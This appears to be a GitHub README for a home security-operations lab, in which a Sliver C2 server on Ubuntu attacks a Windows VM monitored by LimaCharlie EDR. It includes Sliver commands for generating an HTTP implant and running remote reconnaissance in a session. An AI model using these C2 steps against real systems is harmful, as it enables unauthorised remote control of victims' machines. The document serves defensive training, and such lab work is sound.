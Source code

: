 # Home-Soc-Analyst-Project-
-A simple setup to make a Security Operation Center, Using Both Ubuntu and win11


Objectives With this project: Make a lab where one machine is an attacker and the other one is the defender, using LimaCharlie to see the telemetry and creation of YARA "Yet Another Recursive Acronym" and Sigma rules, blocking C2 "Command and Control" and privilege scalation, blocking automation using *Sliver*


What i m gonna need:
-a copy of windows 
-a ubutuntu copy 

Part 1 - Put yourself in Adversary Place *Taking Notes and making observations*.

Part 2- Simulating the adversary attack to notice detections.

Part 3- Blocking A Attack. 

Part 4- Adjusting False Positives.

Part 5- Scaning with YARA through rules of detection. 


Explaining a little of LimaCharlie. 
It is a platform of SecOps based in cloud with the focus being EDX/XDR *detection and response* collecting telemetry through the analysis of logs and Security Automation, being able to manage EndPoint Security.

<img width="632" height="309" alt="image" src="https://github.com/user-attachments/assets/b133ad4e-e7c2-4721-90d9-ef932e4d5789" /> 

-Creating a Organization on LimaCharlie 
-Name: it can be any but i choose *Home Soc Analyst*
-Data Residency Region: Closest avaiable  
-Template: No pre-configuration *but you can customize one for different purpouse*

*adicionar imagem do criando organização

-Sensors 
-Main fonts of receiving data on LimaCharlie, operating through many plataforms that are compatible and sending events in JSON throught the cloud of LimaCharlie live. (Change Later).
*adicionar imagem do sensores

-adding a new sensor 
1. Select Endpoint
2. Select Windows
3. I choose: *Windows VM -Lab* but you can choose through your preference
4. Create
5. Select The key that you just make

//add image of installation key 

-Installing a Sensor or Endpoint
//Add Image

Waiting for new sensors. 
-> configure the Virtual machines, and install the EDR of LimaCharlie in the windows system. 


-Windows EDR - Seonsors, monitoring and rules of defense.

open CMD and execute both those commands:
- cd C:\Users\Administrator\Downloads 
- install Key from LimaCharlie: lc_sensor.exe -i *[your_installation_key]*

will POP *connection acquired* of cmd and Lima charlie 
->ad both cmd and lima charlie images to the system. 

-Artifact Colletion:
      They are records of events and data collected from endpoints, networks, and other sources of threat analysis and response. These artifacts can be used for forensic investigation.

<add image>

name: windows-sysmon-logs 
Pattern: well://Microsoft-Windows-Sysmon/Operational:*
Retention Period: 10 Days
Platform: Windows

<add image>

-Extensions *ext-sigma*
Sigma is a detection rule format, enabling rules to identify malicious behavior.

<add image>

-Configuring the Virtual Machine (Linux)

<add image>
      
sudo su – enable the device as superuser.

systemctl status sliver – check if Sliver is active.

<add image>

– Sliver
Sliver is an open-source command-and-control (C2) framework developed by BishopFox, designed for Red Team operations, penetration testing, and adversary simulation. It serves as a modern alternative to tools such as Cobalt Strike and Metasploit, offering support for multiple platforms and secure communication.
Here’s the translation:

<add image>

http – check if the machine is “listening” for possible connections.

jobs – check if the machine has any active processes.

Generating our C2 implant
It is a payload that enables attackers to remotely control a compromised device, through C2 (command and control).
<add image>

generate –http <linux_vm_ip> –save /var/www/payloads 
<add image>

– Accessing the file through Windows
<add image>

– On the Linux machine
<add image>

use [session_id] – replace session_id with the number shown in the image above (in this case bc318fc1).
<add image>

info – simple command to gather information such as machine name, malware name, system type, and language location
<add image>

whoami: basically a “who am I” in Linux — in this specific case, it shows the machine name and its escalation.

pwd: shows the directory path — in this case C:\Users\Administrator\Downloads.

<add image>

netstat: displays the connections currently occurring on the remote system.

ps -T: identifies the processes running on the remote system in a “tree” format.
<add image>

– Going back to the Sensors part

rocesses in the LimaCharlie section – shows the processes running in the LimaCharlie environment.
<add image>

Now that a “suspicious” process has been found: MARKED_REVIEW.exe
<add image>

Connection established with the program MARKED_REVIEW.exe, including the base connection and the destination.
<add image>

Next, following the line of “viewing network connections.”
<add image>

Network – list of connections made, including connections between suspicious files.
<add image>

File System – lists the files on the computer, allowing an easy path to locate them.
<add image>

Scan on VirusTotal to check if there is any process similar or identical, to see if there is a solution for a potential old or documented malware.
<add image>

Hash – ba39c9077470488fed6f7bd37f9539010d6c5b852bb658309b98116edcaf326c
<add image>

Since in this case there is no match, a new detection and response rule needs to be created.
<add image>

Telemetry – real-time data collection and analysis, enabling the creation of defense and detection rules.
<add image>
